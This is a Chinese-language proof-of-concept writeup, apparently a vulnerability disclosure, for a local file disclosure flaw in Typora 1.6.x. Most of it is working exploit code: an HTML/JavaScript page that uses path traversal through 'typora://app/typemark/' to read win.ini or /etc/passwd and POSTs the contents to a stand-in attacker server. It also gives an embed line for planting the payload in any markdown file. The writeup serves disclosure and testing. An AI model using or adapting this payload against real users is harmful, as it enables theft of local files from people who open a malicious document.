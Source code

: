 Typora for Windows 1.6.7, Typora for Linux 1.6.6 

 在Windows和Linux上的1.7.0-dev之前，Typora中的不当路径处理允许构建的网页访问本地文件并通过“typora://app/typemark/”将其泄露到远程Web服务器。如果用户在 Typora 中打开恶意md文件，或从恶意网页复制文本并将其粘贴到 Typora 中，则可利用此漏洞。 

### POC

#### 利用方式1，打开恶意markdown文件

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Typora 1.6.7 Local File Disclosure Proof-of-Concept</title>
</head>
<body>
<pre id="log" style="background: #eee; width: 100%;"></pre>
<script>
    const log = t => {
        document.getElementById("log").textContent += t + '\r\n';
        fetch('//example.localtest.me/send-file-to-attacker-server', {mode: 'no-cors', body: t, method: 'POST'})
    }
    log('location.origin: ' + location.origin)
    log('navigator.platform: ' + navigator.platform)
    log(' ')
    if(navigator.platform === 'Win32'){
        log('Content of your C:\\Windows\\win.ini:')
        fetch('typora://app/typemark/%5C..%5C..%5C..%5C..%5C..%5C..%5CWindows/win.ini').then(r=>r.text()).then(r=>{log(r)})
    } else {
        log('Content of your /etc/passwd:')
        fetch('typora://app/typemark#/../../../../../../../../etc/passwd').then(r=>r.text()).then(r=>{log(r)})
    }
</script>
</body>
</html>
```

将上面的HTML文件另存为 `poc1.html` 并将其存放到Web服务器，然后将此行

```
 <embed src="http(s)://YOUR-WEB-SERVER/poc1.html">
```

附加到任何markdown文件中。

在poc执行后，

1. 尝试在Windows或 `/etc/passwd` Linux上阅读 `C:/Windows/win.ini` ，
2. 在网页中显示文件的内容，
3. 将文件发送到外部 URL `example.localtest.me` （此域解析为 127.0.0.1 仅用于演示目的）。
